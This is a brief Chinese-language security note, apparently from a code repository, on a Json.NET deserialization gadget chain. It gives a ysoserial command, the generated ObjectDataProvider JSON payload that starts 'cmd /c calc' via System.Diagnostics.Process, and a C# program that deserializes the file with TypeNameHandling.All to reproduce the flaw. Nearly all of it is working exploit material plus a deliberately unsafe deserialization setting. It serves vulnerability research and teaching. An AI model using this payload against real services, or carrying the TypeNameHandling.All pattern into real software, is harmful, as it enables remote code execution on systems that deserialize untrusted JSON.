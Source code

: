 # 反序列化链

## 攻击链ObjectDataProvider

```
ysoserial.exe -g ObjectDataProvider -f json.net -c calc
```

生成payload如下

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### 漏洞复现

```
using Newtonsoft.Json;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;

namespace Json.NetSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            // JsonConvert
            JsonConvert.DeserializeObject(File.ReadAllText("1.json"),new JsonSerializerSettings() { TypeNameHandling =TypeNameHandling.All});
            // JsonSerializer
            JsonSerializer jsonSerializer = JsonSerializer.CreateDefault();
            jsonSerializer.TypeNameHandling = TypeNameHandling.All;
            using (StreamReader sr = new StreamReader("1.json"))
            using (JsonReader reader = new JsonTextReader(sr))
            {
                jsonSerializer.Deserialize(reader);
            }
            Console.ReadKey();
        }
    }
}
```
